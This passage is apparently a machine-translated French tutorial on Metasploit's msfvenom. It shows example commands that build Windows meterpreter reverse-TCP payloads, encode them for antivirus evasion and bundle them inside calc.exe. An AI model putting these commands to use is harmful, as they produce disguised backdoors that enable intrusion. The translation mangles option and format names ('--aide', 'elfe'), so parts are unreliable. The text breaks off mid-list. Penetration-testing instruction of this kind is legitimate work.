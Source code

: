 # sec_msfvenom

### Introduction

**msfvenom** est un générateur de charge utile autonome (bombe logique) dans le framework Metasploit.
(2015.6.8 a remplacé les précédents « msfpayload » et « msfencode »)

* Aide sur GitHub
   * [Comment-utiliser-msfvenom](https://github.com/rapid7/metasploit-framework/ wiki/How-to-use-msfvenom)


### informations d'aide

```
msfvenom --aide
MsfVenom - un générateur de charge utile autonome Metasploit.
Également un remplacement pour msfpayload et msfencode.
Utilisation : /usr/bin/msfvenom [options] <var=val>
Exemple : /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Possibilités :
     -l, --list <type> Répertorie tous les modules pour [type]. Les types sont : charges utiles, encodeurs, nops, plates-formes, archs, chiffrement, formats, tous
     -p, --payload <payload> Charge utile à utiliser (--list charges utiles à lister, --list-options pour les arguments). Spécifiez '-' ou STDIN pour la personnalisation
         --list-options Liste les options standard, avancées et d'évolution de --payload <value>
     -f, --format <format> Format de sortie (utilisez les formats --list pour lister)
     -e, --encoder <encoder> L'encodeur à utiliser (utilisez --list encoders pour lister)
         --sec-name <valeur> Le nouveau nom de section à utiliser lors de la génération de fichiers binaires Windows volumineux. Par défaut : chaîne alphabétique aléatoire de 4 caractères.
         --smallest Génère la plus petite charge utile possible en utilisant tous les encodeurs disponibles
         --encrypt <value> Le type de cryptage ou d'encodage à appliquer au shellcode (utilisez --list encrypt pour lister)
         --encrypt-key <value> Une clé à utiliser pour --encrypt
         --encrypt-iv <value> Un vecteur d'initialisation pour --encrypt
     -a, --arch <arch> L'architecture à utiliser pour --payload et --encoders (utilisez --list archs pour lister)
         --platform <platform> La plateforme pour --payload (utilisez --list platform pour lister)
     -o, --out <path> Enregistre la charge utile dans un fichier
     -b, --bad-chars <list> Caractères à éviter, exemple : '\x00\xff'
     -n, --nopsled <longueur> Ajouter un nopsled de taille [longueur] à la charge utile
         --pad-nops Utiliser la taille nopsled spécifiée par -n <length> comme taille totale de la charge utile, en ajoutant automatiquement un nopsled de quantité (nops moins la longueur de la charge utile)
     -s, --space <length> La taille maximale de la charge utile résultante
         --encoder-space <length> La taille maximale de la charge utile encodée (valeur par défaut -s)
     -i, --iterations <count> Le nombre de fois où encoder la charge utile
     -c, --add-code <path> Spécifie un fichier shellcode win32 supplémentaire à inclure
     -x, --template <path> Spécifie un fichier exécutable personnalisé à utiliser comme modèle
     -k, --keep Préserve le comportement de --template et injecte la charge utile en tant que nouveau thread
     -v, --var-name <value> Spécifie un nom de variable personnalisé à utiliser pour certains formats de sortie
     -t, --timeout <second> Le nombre de secondes à attendre lors de la lecture de la charge utile depuis STDIN (par défaut 30, 0 pour désactiver)
     -h, --help Afficher ce message
```


### Générer une charge utile - instructions de base

* Le type 1 génère une charge utile normale sans encodage (pas d'encodage -> contenu généré fixe -> directement tué)

```bash
#Format
msfvenom --payload <charge utile> <options de charge utile> -f <format> -o <chemin>
# exemple
msfvenom --payload windows/meterpreter/reverse_tcp -f c -o 1.c
```

* Le type 2 génère une charge utile après avoir été traité par l'encodeur

```bash
#Format
msfvenom --payload <payload> -e <encoder> -i <encoder times> -n <nopsled> -f <format> -o <path>
# exemple
msfvenom --payload windows/meterpreter/reverse_tcp -i 3 -e x86/shikata_ga_nai -f exe -o C:\back.exe
```

* Le type 3 est regroupé dans un fichier normal pour générer une charge utile (la question de savoir si le paramètre -e peut être ajouté n'a pas encore été testée)

```bash
Msfvenom --payload windows/meterpreter/reverse_tcp -platform windows -a x86 -x C:\calc.exe -k -f exe -o C:\shell.exe
```


### --payload [Spécifiez le nom de la charge utile de l'attaque]

Pour générer la charge utile, au moins --payload et -f doivent être spécifiés

* --charge utile
   * Vous pouvez spécifier le nom de la charge utile fourni avec msfvenom, tel que `--payload windows/meterpreter/reverse_tcp`
   * Vous pouvez spécifier une charge utile personnalisée telle que `cat custom_payload_shellcode.bin | msfvenom --payload - -a x86 --platform win -e x86/shikata_ga_nai -f raw -o shellcode_encoded.bin`

Les noms de toutes les charges utiles d'attaque font référence aux charges utiles msfvenom à la fin de cet article.
 

### -f [Spécifiez le format de fichier de sortie de la charge utile]

* -f prend en charge la sortie de différents formats de fichiers
   * Format exécutable (pour exécution directe)
     * `-f exe` génère un programme exécutable Windows
     * `-f exe uniquement`
     * `-f msi`
     * `-f vba` Générer des programmes exécutables Visual Basic pour Applications (un langage de programmation simple et puissant qui peut être utilisé pour étendre les applications Office) Référence [Démarrage d'Office VBA | Microsoft Docs](https://docs.microsoft.com / zh-cn/office/vba/library-reference/concepts/getting-started-with-vba-in-office)
     * `-f elf` génère un programme exécutable Linux
     * `-f elfe-donc`
     * `-f macho` génère un programme exécutable macOS/iOS
     * `-f osx-app`
     * `-f pot`
     *...
   * Format convertible (pour une utilisation personnalisée)
     * `-f raw` génère le format de sortie par défaut au format natif lorsque -f n'est pas spécifié
     * `-f hex` génère un codage hexadécimal tel que `\x0a`
     * `-f python`
     * `-fc`
     * `-f csharp` génère du code C#
     * `-f powershell`
     * `-f bash`
     * `-f sh`
     *...



Tous les formats de sortie
```bash
msfvenom --format de liste

Formats exécutables du framework [--format <valeur>]
===================================================

     nom
     ----
     aspic
     aspx
     aspx-exe
     axe2
     dll
     elfe
     elfe-donc
     exe
     exe-on
